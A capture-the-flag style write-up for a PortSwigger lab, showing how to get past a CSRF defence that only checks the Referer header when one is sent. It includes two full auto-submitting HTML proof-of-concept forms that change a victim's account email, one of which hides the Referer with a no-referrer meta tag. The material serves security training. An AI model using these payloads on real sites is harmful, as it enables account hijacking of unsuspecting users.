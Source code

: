## Lab Description:  

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/92feecab-6680-4a66-baab-851fbef45c35)

## Solution:

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f940f2cb-9c60-4f85-883a-9f0a255d61e2)

Send the request to Burp Repeater and Generte the payload.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f7a10623-f331-4ed5-9522-9606c55cb901)

Created POC is below
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a18004d04877b8f83715009002f001c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;gmial&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

when viewing the exploit it will show as invalid Referer header.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/971f1b69-3d4b-4708-8d7c-885b6912c2fa)

Then Delete the Referer header entirely and observe that the request is now accepted.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/49a70a29-dd51-4c26-9330-e20c85f82a9e)

request worked.

Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b25b84d3-abe3-427e-b85a-ec096c3a6724)

```
<meta name="referrer" content="no-referrer">
```
now Generte the payload an insert this payload in that.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
   <meta name="referrer" content="no-referrer">
    <form action="https://0a18004d04877b8f83715009002f001c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;gmial&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e8e91350-92b9-445a-92b7-dce89e371d01)
